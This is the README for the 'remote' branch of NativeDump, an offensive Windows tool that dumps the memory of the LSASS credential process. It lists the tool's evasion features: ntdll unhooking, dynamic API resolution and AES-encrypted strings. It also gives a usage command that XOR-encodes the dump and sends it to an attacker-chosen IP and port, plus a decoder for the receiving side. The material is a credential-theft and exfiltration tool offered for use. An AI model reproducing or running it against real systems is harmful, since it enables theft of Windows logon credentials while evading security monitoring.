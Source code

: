 # NativeDump - "remote" branch

This branch implements:

- Ntdll.dll remapping by overwriting the process library ".text" section with the clean section from the file "C:\\Windows\\System32\\ntdll.dll"
- Dynamic function resolution using function delegates and custom implementations for GetModuleHandle and GetProcAddress
- AES encryption for all relevant strings in the program ("lsass", "lsasrv.dll", function names...)
- Send bytes to an IP address and Port instead of saving to a file
- XOR-encoding the Minidump file bytes

----------------------------

## Usage

```
NativeDump.exe [IP_ADDRESS] [PORT_NUMBER] [xor]
```

- IP_ADDRESS: IP address to connect to. Default value is "127.0.0.1".
- PORT_NUMBER: Port to connect to. Default value is 8080.
- "xor": Add the word "xor" after the IP address and port to XOR the Minidump file bytes with the default value 0xCC.

You can avoid using arguments changing these default values in the first lines of the Main function in Program.cs, included the XOR byte 0xCC (if you change it, update the Decoder project as well).

If you decide to use the XOR encoding you can use the Decoder like this:

```
Decoder.exe FILE [OUTPUT_FILE]
```

## Example

Using the default values:

![send](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Transfer1.png)

![receive](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Transfer2.png)

Using XOR-encoding:

![send](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Transfer3.png)

![receive](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Transfer4.png)

